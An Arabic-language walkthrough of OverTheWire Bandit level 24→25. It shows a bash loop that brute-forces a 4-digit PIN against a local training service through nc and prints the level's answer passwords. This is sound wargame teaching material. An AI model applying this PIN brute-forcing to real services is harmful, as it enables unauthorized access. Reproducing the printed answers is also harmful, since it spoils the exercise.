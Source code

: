 # حل Bandit Level 24 → 25

**التاريخ:** 2025-10-01

---

## الوصف
هناك خدمة تستمع على المنفذ **30002**. تعطيك كلمة مرور المستخدم **bandit25** إذا أعطيتها كلمة مرور **bandit24** ورمز سري **4-أرقام** (من 0000 إلى 9999). لا يوجد طريقة أسرع لاسترجاع هذا الرمز سوى تجربة جميع التركيبات — أي brute-force.

المطلوب: إرسال سطر واحد لكل محاولة يحتوي كلمة مرور bandit24 ثم المسماة (space) ثم سلسلة الأرقام (مثلاً `gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 0000`). لا يلزم إنشاء اتصال جديد في كل محاولة — نفتح اتصال واحد وندفَع كل المحاولات خلاله.

---

## الفكرة العامة
ننشئ قائمة من السطور:
```
<password-of-bandit24> <pincode>
```
لكل pincode من `0000` إلى `9999`، ثم نمرّرهم لبرنامج `nc` متصلًا بالمنفذ 30002. نقرأ المخرجات ونفلتر السطر الذي يحتوي على كلمة مرور bandit25.

**ملاحظة صغيرة عن سلاسل الأرقام بصيغة 4 خانات:** نستخدم `seq -w 0 9999` أو تنسيق Bash `{0000..9999}` أو printf `%04d` للحفاظ على الصيغة `0000`, `0001`, ...

---
#nc 

## حل سريع (أمر واحد)
```bash
for i in $(seq -w 0 9999); do echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i"; done | nc localhost 30002 | grep "bandit25"
```

### شرح مختصر:
- `seq -w 0 9999` يولّد الأرقام من `0000` إلى `9999` بصيغة 4 خانات.
- كل دورة تطبع سطرًا يحتوي كلمة مرور bandit24 (المعطاة لك) والمسماة.
- كل السطور تُمرّر عبر أنبوب واحد إلى `nc localhost 30002` (فتظل الجلسة الواحدة مفتوحة وتتلقى الخدمة كل المحاولات).
- نبحث في مخرجات الخدمة عن السطر الذي يحتوي `bandit25` ليُعرض لك كلمة مرور bandit25.

> بديل (من دون `seq`, باستخدام brace expansion):
```bash
for i in {0000..9999}; do echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i"; done | nc localhost 30002 | grep "bandit25"
```

## النتيجة (كلمة مرور bandit25)
```
iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
```

---

لا تنسى الصلاة على النبي محمد ﷺ.


